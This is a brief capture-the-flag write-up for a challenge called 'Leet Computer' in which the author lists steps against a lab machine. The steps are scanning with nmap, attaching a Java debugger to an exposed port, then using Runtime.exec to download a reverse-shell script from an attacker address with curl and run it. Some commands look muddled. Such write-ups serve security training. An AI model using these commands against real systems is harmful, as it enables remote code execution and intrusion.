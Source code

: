# Leet Computer: Pentest 19

### One of the attacker is still in the airport hall, and it seems that he is still connected to the airport wifi ! Get a root shell on its machine to continue your investigation. This challenge will give you access to another network.

My thought process...

1. ```nmap -Pn 10.40.3.230``` This is the ip that pinged us on the Discovery challenge.
   ```port 22 open ssh```
   ```port 8100 open http```
2. ```whatweb 10.40.3.230/8100``` Running Apache & PHP
3. ```telnet 10.40.3.230 8100``` Allows connection
4. *Install jdb*
5. ```jdb attach 10.40.3.230:8100```
6. ```stop in org.apache.logging.log4j.core.config.ConfigurationFileWatcher.isModified```
7. ```print new java.lang.Runtime().exec("sh -c $@|sh . curl 172.16.72.203:8888/reverse.py  -o /tmp/reverse.py")```
8. *Setup Netcat listener*
   ```nc -l 10.40.3.230```
9. ```print new java.lang.Runtime().exec("python3 /tmp/reverse.py")```
10. ```...```


**NOTE:** I did not finish this challenge before the competition ended. However, one of my teammates was able to solve before the competition ended.

Here is a write-up for this challenge by Łukasz Szymański: [Leet Computer](https://szymanski.ninja/en/ctfwriteups/2021/norzhctf2021/leet-computer/)

Another great write-up to check out by @snix0 [https://github.com/snix0/norzhctf-writeup/blob/main/leet_computer/leet_computer.md](https://github.com/snix0/norzhctf-writeup/blob/main/leet_computer/leet_computer.md)
